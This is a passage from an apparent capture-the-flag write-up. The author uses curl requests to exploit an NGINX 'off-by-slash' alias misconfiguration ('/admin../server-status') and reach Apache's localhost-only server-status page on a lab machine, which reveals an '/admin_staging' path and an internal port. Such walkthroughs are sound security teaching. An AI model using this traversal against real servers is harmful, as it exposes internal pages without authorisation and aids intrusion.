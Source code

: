 Still, while that verifies I’m thinking about the configuration right, there’s not much I can do with that.

Thinking about what else might be being served by Apache, I tried looking for `server-status`. This is typically only accessible from localhost, but given the NGINX proxy, the request will be coming from localhost. Trying to hit the page directly doesn’t work (it would have been found by `feroxbuster`):

```

oxdf@parrot$ curl -I http://10.10.10.249/server-status
HTTP/1.1 404 Not Found
Server: nginx/1.14.2
Date: Tue, 30 Nov 2021 22:22:40 GMT
Content-Type: text/html; charset=iso-8859-1
Connection: keep-alive
Vary: Accept-Encoding

```

If I try to request the page with a `/../`, it doesn’t work:

```

oxdf@parrot$ curl -I http://10.10.10.249/admin/../server-status
HTTP/1.1 404 Not Found
Server: nginx/1.14.2
Date: Sat, 17 Jul 2021 19:21:02 GMT
Content-Type: text/html; charset=iso-8859-1
Connection: keep-alive
Vary: Accept-Encoding

```

But using the off by slash, it does:

```

oxdf@parrot$ curl -I http://10.10.10.249/admin../server-status
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 17 Jul 2021 19:21:18 GMT
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 6242
Connection: keep-alive
Vary: Accept-Encoding
Vary: Accept-Encoding

```

In Firefox:

![image-20210707131731884](https://0xdfimages.gitlab.io/img/image-20210707131731884.png)

In addition to seeing the urls I’ve been visiting, there’s also one at the top that is interesting, `/admin_staging`. This page also shows that Apache is listening on TCP 81 on localhost.
